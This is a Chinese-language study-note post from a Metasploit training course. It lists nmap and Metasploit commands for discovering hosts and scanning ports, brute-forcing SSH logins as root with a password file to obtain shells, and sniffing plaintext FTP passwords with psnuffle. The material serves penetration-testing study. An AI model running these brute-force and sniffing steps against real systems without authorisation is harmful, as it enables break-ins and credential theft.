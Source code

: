 ```yaml
---
title: Metasploit-2 Nmap扫描原理及口令猜测与嗅探
date: 2019-04-20 16:17:35
categories: Metasploit魔鬼训练营笔记
---
```

一、.主机探测与端口扫描
活跃主机扫描，指已连接到网络上、处于运行状态且网络功能正常的主机。
1.ICMP ping -c 次数 目的ip地址
2.metasploit的主机发现模块
（1）arp_sweep //地址解析协议定义，ip地址转化为MAC地址，进行广播
udp_sweep
ARP扫描器
use auxiliary/scanner/discovery/arp_sweep ; show options ; set RHOSTS 10.10.10.0/24 ; set THTEADS 50 ; set INTERFACE 网卡名称 ; run
(2)Nmap进行主机探测
nmap -sP ip地址 //同通过发送ICMP echo请求探测主机是否存活原理通ping
-sT TCP connect 扫描，类似Metasploit中的tcp扫描模块
-sS TCP SYN扫描 类似Metasploit中的syn扫描模块
-sF/-sX/-sN 这些扫描通过发送一些特殊标志位以避开设备或软件的检测
-sU 探测目标主机开放了哪些UDP端口
-Pn 在扫描之前，不发送ICMP echo 请求测试目标是否活跃
-O 启用对于TCP/IP协议栈的指纹特征获取远程主机的操作系统类型等信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190308141607641.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MjE1MTcwOQ==,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190308141620431.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MjE1MTcwOQ==,size_16,color_FFFFFF,t_70)
更加详细见nmap探测原理.pdf

二、口令猜测与嗅探
1.攻击SSH服务
需要好的用户名和口令字典
（1）use auxiliary/scanner/ssh/ssh_login ; set RHOSTS 10.10.10.2544 ; set USERNAME root ;set PASS_FILE /root/words.txt ; set THREADS 50 ; run 
（2）session -l查看获得权限的主机名称 ； seeion -i 编号 取得shell
2.psnuffle口令嗅探
获取FTP明文登陆口令
use auxiliary/sniffer/psnuffle ; run

